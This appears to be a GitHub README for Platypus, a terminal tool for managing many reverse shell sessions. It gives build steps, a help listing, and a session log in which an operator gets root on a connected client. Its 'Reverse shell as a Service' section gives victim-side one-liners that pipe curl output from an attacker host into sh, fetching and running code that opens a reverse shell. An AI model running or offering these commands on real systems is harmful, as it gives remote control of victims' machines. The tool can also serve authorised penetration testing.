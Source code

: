 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service
- [ ] Upgrade common reverse shell session into full interactive session

#### Use Platypus from source code
```
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Use Platypus from release binaries
```
# Download binary from https://github.com/WangYihang/Platypus/releases
root@kali:~# chmod +x ./Platypus_linux_amd64
root@kali:~# ./Platypus_linux_amd64
>> Help
Usage: 
	Help [COMMANDS]
Commands: 
Command
	execute a command on the current session
DataDispatcher
	DataDispatcher command on all clients which are interactive
Exit
	Exit the whole process
	If there is any listening server, it will ask you to stop them or not
Info
	Display the infomation of a node, using the hash of the node
Interact
	Pop up a interactive session, you can communicate with it via stdin/stdout
Jump
	Jump to a node, waiting to interactive with it
List
	Try list all listening servers and connected clients
REST
	Start a RESTful HTTP Server to manager all clients
Run
	Try to run a server, listening on a port, waiting for client to connect
Switching
	Switch the interactive field of a node, allows you to interactive with it
	If the current status is ON, it will turns to OFF. If OFF, turns ON
>> Run 0.0.0.0 8080
>> 2018/10/24 14:36:39 Server running at: [b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (0 online clients) (started at: now)
>> 2018/10/24 14:37:05 New client [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: now) [false] Connected
>> List
2018/10/24 14:37:11 Listing 1 servers
[b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (1 online clients) (started at: 31 seconds ago)
	[d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 6 seconds ago) [false]
>> Jump d
2018/10/24 14:37:12 The current interactive shell is set to: [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 7 seconds ago) [false]
>> Interact
2018/10/24 14:37:14 Interacting with [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 9 seconds ago) [false]
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
exit
>> REST 127.0.0.1 9090
2018/10/24 14:37:27 RESTful HTTP Server running at 127.0.0.1:9090
```

#### Reverse shell as a Service
```bash
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# if the attacker info not specified, it will use host, port as attacker-host attacker-port
sh -c "$(curl http://host:port/)"
```

#### TODO
- [ ] More interfaces in RESTful API
